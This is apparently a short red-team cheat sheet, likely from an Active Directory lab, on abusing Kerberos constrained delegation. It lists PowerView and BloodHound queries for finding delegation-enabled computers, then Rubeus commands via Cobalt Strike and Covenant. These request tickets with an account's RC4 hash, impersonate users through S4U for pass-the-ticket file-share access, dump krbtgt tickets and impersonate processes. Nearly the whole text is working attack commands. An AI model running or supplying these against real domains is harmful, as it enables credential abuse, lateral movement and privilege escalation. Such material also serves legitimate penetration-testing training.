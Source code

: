 ## Powerview
```
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
```
## BloodHound
```
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

## CobaltStrike --- user to host
```
execute-assembly C:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dbservice /domain:US.FUNCORP.LOCAL /rc4:6f9e22a64970f32bd0d86fddadc8b8b5
execute-assembly C:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:[username] /msdsspn:[AllowedToDelegateTo] /altservice:cifs /ptt  (This should allow psexec)
```

## Covenant --- host to host
```
Rubeus dump /service:krbtgt
Rubeus s4u /impersonateuser:[username]@[domain] /msdsspn:[AllowedToDelegateTo] /ticket:[...snip...]
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
ImpersonateProcess 3420
```

* plain text to NTML
```
Rubeus.exe hash /password:lab
```
